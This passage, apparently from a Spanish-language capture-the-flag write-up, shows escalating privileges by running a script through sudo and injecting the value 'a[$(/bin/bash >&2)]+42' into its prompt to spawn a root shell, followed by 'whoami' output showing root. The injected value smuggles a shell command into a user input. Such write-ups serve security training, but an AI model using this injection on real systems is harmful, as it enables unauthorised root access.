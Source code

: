 Ahora tenemos el mismo archivo pero como root:
```bash
sudo -u root /bin/bash /home/pylon/pylonsorpresita.sh
```

Ahora explotamos el privilegio para ganar acceso como **root**
```bash
Escribe 1 para ver el canal de pylon: a[$(/bin/bash >&2)]+42
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@e0f03ecc5baa:/home/mario# whoami
root
```

---